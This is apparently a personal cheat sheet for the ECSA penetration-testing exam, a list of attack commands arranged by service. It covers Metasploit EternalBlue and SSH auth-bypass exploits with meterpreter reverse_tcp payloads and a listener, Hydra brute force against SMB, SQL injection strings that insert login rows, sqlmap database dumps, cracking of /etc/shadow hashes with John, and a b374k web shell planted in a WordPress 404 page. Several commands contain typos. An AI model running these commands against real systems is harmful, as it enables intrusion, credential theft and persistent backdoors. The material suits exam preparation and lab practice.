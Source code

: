 # ECSA-Test Exam

#FTP

metasploit auxiliary/scanner/ftp/anonymous

or 

nmap -p 21 --script ftp-anon IP_address 

#RPC #NFS
Searching for miscofigured RPC services and NFS
namp -T4 -A IT_address/24

used also auxiliary/scanner/nfs/nfsmount

Below would display rpc services: 
rpcinfo -p IP_address 

showmount --export IP_address

Mounting resource:
sudo mkdir /var/backups
sudo mount -t nfs IP_address:/backups /root/backups


#SNMP 

use auxiliary/scanner/snmp/snmp_login

When users identified used for #SMB:

hydra -L fileWithUsers.txt -P fileWIthPasswords.txt IP_address smb

after that use psexec in measploit


#SSH
use exploit/windows/ssh/freesshd_authbypass for WebOnlyDO

background it

i set session 1
ii. set payload windows/meterpreter/reverse_tcp
iii. set lhost Local_IP

on windows metasploit exploit ms14_058_track_popup_menu


# SQL injection

blah' or 1=1 -- 
blah';insert into login values ('user','user123'); --
blah';create database somedatabase; --

sqlmap -u "www.somesite.com" --method POST --data "data from the injection test" --dbs
                                                                                -D dtabasename --tables

                                                                                -D hotel -T tablename --dump

                                                                                
 #Windows #eternalblue                                                                  In case of use auxiliary/scanner/smb/smb_ms17_010

use exploit/windows/smb/eternalblue_doublepulsar

set rhost target_IP
set processinject lsass.exe
set targetarchitecture x64
set payload windows/x64/meterpreter/reverse_tcp
set lhost localipaddress - of attacker

adjust architecture and inject process if needed



## Local attack machine to receive connection

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp


## John the Riper usage
export CPUID_DISABLE=1
john --format=nt /root/Desktop/hashes.txt - if hashes are dumped from the OS 



## passwords from Linux

unshadow password.txt shadow.txt > unshadow
files are from /etc/shadow and /etc/passwd

after 
export CPUID_DISABLE=1
john unshadow


## Wordpress 

wpscan --url http://ip_address/wordpress --enumerate p

Possible replacement of 404 page with b374k-master - tool would generate shell.php like this

php -f index.php -- -o shell.php -s -b -z gzcompress -c 9

For wordpress possible exploit/unix/webapp/wp_admin_shell_upload 

